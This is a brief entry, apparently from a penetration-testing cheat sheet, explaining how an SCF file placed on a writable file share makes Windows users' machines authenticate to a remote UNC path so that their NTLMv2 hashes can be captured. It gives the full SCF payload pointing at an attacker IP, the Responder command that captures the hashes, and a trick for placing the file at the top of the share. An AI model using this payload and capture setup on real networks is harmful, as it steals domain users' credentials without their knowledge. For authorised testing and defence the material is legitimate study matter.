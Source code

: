 # SCF (Shell Command Files)
> If a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users. It is not new that SCF files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path.
```console
[Shell]
Command=2
IconFile=\\192.168.0.12\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Saving as SCF file will make the file to be executed when the user will browse the file. Adding the **@** symbol in front of the filename will place the pentestlab.scf on the top of the share drive.

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.
```console
responder -wrf --lm -v -I eth0
```
When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

> The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. 
